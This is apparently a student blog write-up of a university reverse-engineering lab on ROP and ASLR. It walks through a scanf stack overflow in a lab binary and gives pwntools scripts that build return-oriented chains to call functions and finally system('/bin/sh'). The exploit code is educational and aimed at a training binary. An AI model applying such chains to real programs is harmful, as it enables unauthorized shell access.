 ```yaml
---
layout: post
title:  UNIBUC_RE_lab_6_task_1
image: /assets/img/UNIBUC_RE.jpg
date:   2022-09-01 16:39:01
tags:
- pwn
description: ROP and ASLR exercise
categories:
- UNIBUC RE
---
```


ROP and ASLR exercise

This exercise is simple and can be approximated as follows:
- we have a easy scanf that is vulnerable:
![](/assets/img/2022-09-02-08-36-43.png)

Looking at the stack we see we can put 136 bytes and then the return.
![](/assets/img/2022-09-02-08-42-54.png)

![](/assets/img/2022-09-02-08-49-51.png)
- Put 0xdeadbeef on stack then call f1

We look for rop gadgets using : `ROPgadget --binary task01`

We see the following interesting rops:
![](/assets/img/2022-09-02-11-45-01.png)

We should put the argument and then jump to it giving us the following payload:

```
from pwn import *

from ctypes import *

io = process("./task01")
io.recvuntil("name")
gdb.attach(io,'break *0x401258 ')
io.sendline(128*b'a'+8*b'x'+p64(0x4012db)+p64(0xdeadbeef)+p64(0x0401186))
io.interactive()

```
After executing this script we should have x'es in the RBP register and get f1 called with deadbeef:

![](/assets/img/2022-09-02-12-02-00.png)


![](/assets/img/2022-09-02-12-02-15.png)

- f2 with the parameters 0x1234, 0xabcd 

we see that we can find the following gadget:
`0x00000000004012d9 : pop rsi ; pop r15 ; ret`

```
from pwn import *

from ctypes import *
e = ELF('./task01')
pop_rdi=0x4012db
pop_rsir15=0x4012d9
io = process("./task01")
io.recvuntil("name")
gdb.attach(io,'break *0x401258 ')
io.sendline(128*b'a'+8*b'x'+p64(pop_rdi)+p64(0xdeadbeef)+p64(e.symbols['f1'])+p64(pop_rdi)+p64(0x1234)+p64(pop_rsir15)+p64(0xabcd)+p64(0xdeadbeef)+p64(e.symbols['f2']))
io.interactive()

```

![](/assets/img/2022-09-02-12-21-33.png)

- call /bin/sh

![](/assets/img/2022-09-02-12-25-55.png)

We get the string we look so it doesn't have space or \n the first string has 20 which is space in ascii so it could break our exploit we'll use the latter.

```
from pwn import *

from ctypes import *
e = ELF('./task01')
pop_rdi=0x4012db
bin_sh=0x403072
pop_rsir15=0x4012d9
io = process("./task01")
io.recvuntil("name")
#gdb.attach(io,'break *0x401258 ')
io.sendline(128*b'a'+8*b'x'+p64(pop_rdi)+p64(bin_sh)+p64(e.symbols['system']))
io.interactive()
```